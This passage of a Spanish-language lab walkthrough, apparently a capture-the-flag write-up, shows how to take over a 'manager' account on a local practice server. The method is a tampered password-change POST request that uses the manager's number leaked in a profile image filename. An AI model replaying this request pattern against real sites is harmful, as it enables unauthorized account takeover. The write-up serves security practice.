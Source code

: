 <figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-09 093345.png" alt=""><figcaption></figcaption></figure>

Veremos que si esta el numero de nuestro usuario y el del `manager` por lo que podremos realizar lo siguiente en la peticion de cambiar la contraseña.

```
POST /account.php HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: http://172.17.0.2
Connection: keep-alive
Referer: http://172.17.0.2/account.php
Cookie: PHPSESSID=un90l8o0mrkeas2gef3d3lqvci
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=manager&numero=5597527595641235&new_password=diseo&confirm_password=diseo
```

Tendremos que dejarlo asi con el nombre de usuario `manager` y el numero del `manager` que hemos encontrado en el nombre de la imagen de perfil de dicho usuario.

Si lo enviamos veremos que se cambio la contraseña de dicho usuario de forma exitosa, por lo que vamos a probar a iniciar sesion con las credenciales que hemos cambiado.

Vemos que ha funcionado y veremos un boton llamado `dashboard` en el que veremos lo siguiente:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-09 093624.png" alt=""><figcaption></figcaption></figure>